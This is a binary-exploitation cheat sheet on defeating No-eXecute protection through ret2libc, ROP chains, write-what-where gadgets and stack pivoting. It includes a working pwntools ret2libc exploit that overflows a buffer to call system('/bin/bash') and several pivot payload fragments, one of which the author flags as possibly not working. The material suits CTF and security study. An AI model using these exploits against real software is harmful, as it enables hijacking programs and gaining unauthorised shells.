 # No eXecute

## ret2libc

Check if the target binary is using `libc` with the following commands:  
`ldd <binary>`  
or  
`vmmap` - when inside gdb  

List functions provided by your systems libc:  
`nm -D /lib/$(uname -m)-linux-gnu/libc-*.so | grep -vw U | grep -v "_" | cut -d " " -f 3`  

libc, or any other library, is a list of functions that reside at a known offset from the library base.  
If you know the library base and the library version, you will also know the target function's address.  

*NX prevents execution from the stack but having arguments there is fine*  

Steps to exec a function in libc:  
1. find interesting function to spawn a shell (System, Exec* (execl, execle, execlp, execve, execve, etc...))
2. Set up the stack
3. Overwrite EIP/RIP with the functions address

Stack setup:  
1. Offset to EIP
2. Address of the target function
3. Return address to be restored after executing the function, i.e. exit() (or anything if we don't care about a graceful exit)
4. Arguments for the target function

---

Find the offest to `system()` in libc, from the base of libc (the path can be found after using `ldd` on th etarget binary with:  

`readelf -s <libc_path>`  

Additionally find the offset to a function that is present in the binary, e.g. `puts()`.  
You can leak the address of `puts`, subtract the offset of `puts` from the `puts` address to get the libc base address,  
the add the offset of `system()` to the base address and call that.  
Search for "/bin/sh" in libc and follow the above steps - alternatively, use a write-what-where gadget to store "/bin/sh" in memory.  

Can also import libc into pwntools to automate searching for functions, just need to set the libc base address (run `ldd` on the target binary):  

```python3
from pwn import *

libc = ELF("</path/to/libc.so>")
libc.address = 0x<ldd_output>
system_function = libc.symbols.system
bin_sh = next(libc.search(b'/bin/sh\x00'))
```

### System() Example
No ASLR  
---

From the man pages:  
`int system(const char *cmd);`  

Find system()'s offset from the libc base  
`readelf -s /lib/i386-linux-gnu/libc.so.6 | grep "system"`  
The address provided in the second column is the offset  
Open gdb while debugging the target binary and run: `vmmap libc`. Choose one which has "x" permissions  
Add the system() offset and the executable libc base to find system()'s address.  

If the above does not work, an alternative is `p system` in gdb.  
*repeat for exit() if looking to exit gracefully*  

System() requires a pointer to the string as an argument, not the string itself. Need to find "/bin/bash" or similar in the binary.  
In gdb: `search /bin` to find instances of shells  
Try to use addresses from libc  

**Example exploit:**  

```python3
#!/usr/bin/env python3
from pwn import *
io = process("./vuln")
offset = b"A" * 520
target_func = p64(0x7ffff7e17330)   # system @ 0x7ffff7e17330
ret_addr = p64(0x7ffff7e09590)    # exit @ 0x7ffff7e09590
sys_arg = p64(0x7ffff7f61031)   # Argument to system() "/bin/bash" @ 0x7ffff7f61031

payload = offset + target_func + ret_addr + sys_arg
print(payload)

io.sendline(payload)
io.interactive()
```

If you need to pass as a command line arg you can use `(cat payload.txt; cat) | ./vuln`  

## ROP Chains

Pwntools ROP documentation: <https://docs.pwntools.com/en/latest/rop/rop.html>  
<https://github.com/Gallopsled/pwntools-tutorial/blob/master/rop.md>  
Stephen Sims - Return Oriented Shellcode (SANS SEC760 Content)  
<https://www.youtube.com/watch?v=7BMyVvYv5d0>  
Automate finding gadgets <https://github.com/packz/ropeme>  

Overflow a buffer to control the EIP/RIP.  
From the EIP/RIP onwards, place the address of the instructions you are using and any values that need to be popped into registers, followed by an `int 0x80` to switch to kernel mode and execute the system call.  

You can view the available gadgets in a program with `ropper`  
E.g. `ropper -f vuln` to view all of the gadgets in a binary.  


**Calling execve():**  
- AL register needs to hold 0x0b
- BX register needs to hold a pointer to your arg for the system call
- CX register points to the arg vector ARGV pointer array
- DX register points to the ENVP array (Environment Variable Pointer)

If the program has an mmap() function, you need to find rop gadgets **after** the mmap() has occurred to ensure the gadgets do exist in memory.  
- You can then use `ltrace` to view the address where mmap is mapped and add instuction offsets
- Validate by hitting a breakpoint in gdb and addid the 2 values, then `x/i $addr`

## Write What Where

Gadgets that allow you to store data in memory, i.e. create a pointer to an argument.  
 
E.g.  

```asm
# Basic and best example
mov [rdi], rsi; ret;

# Alternative:
xchg byte ptr [rdi], bl; ret;
```

## Writeable Locations

Find writable sections with `readelf -S -W ./vuln`  
Use pwntools to reference section addresses:  
```python
from pwn import *
context.binary = elf = ELF("./vuln")
print(elf.symbols)
```

**.data** stores initialised variables.  
The address of .data can be found with:  
```python
from pwn import *
context.binary = elf = ELF("./vuln")
data_section = elf.symbols.data_start
```

**.bss** stores uninitialised variables.  
The address of .bss can be found with:  
```python
from pwn import *
context.binary = elf = ELF("./vuln")
bss_section = elf.symbols.__bss_start
```

## Stack Pivoting

Gadgets to control ESP/RSP:  

```asm
pop rsp; ret;               # Unlikely, but great

xchg <reg>, rsp; ret;       # Just need to control the register in question:
# eg.
pop <reg>; ret;
<reg value>
xchg <reg>, rsp; ret

leave; ret;                 # These are everywhere
```

leave; ret; explanation:  
`leave` is equivalent to `mov rsp, rbp; pop rbp;`  
So a `leave; ret;` looks like `mov rsp, rbp; pop rbp; pop rip;`  
That means that when we overwrite RIP, the 8 bytes before it overwrite RBP (4 bytes for ESP)  
If we then call `leave; ret;` again, RBP is moved into RSP, thus giving us control over the stack location.  

### Example "leave; ret;" Payload

*Note: Not sure if this works.*  

```python3
from pwn import *
rop.raw([
    b"A" * rbp_offset, # rip control - 8 (4 for 32bit)
    new_stack_addr,
    leave_ret,
])
```

### Example "xchg rax, rsp; ret;" Payload

Using a simple `xchg` instruction where we control the register that is exchanged with esp.  
*This doesn't cover finding a new stack location*  

```python
from pwn import *

xchg = p32(0x0804882e) # 0x0804882e: xchg eax, esp; ret;
pop = p32(0x0804882c) # 0x0804882c: pop eax; ret;

payload = flat([
  pop,
  leaked_addr,
  xchg
])
```

### Example "sub esp, 0x20"

If you don't have much space for a rop chain, eg. only 4 or 8 bytes are overflowed out of the buffer,  
you can utilise a `sub esp, 0x20`, or similar to move the stack pointer lower in memory,  
where you have additional ROP gadgets.  
Use ROP gadgets in your offset data rather than just junk alone.  
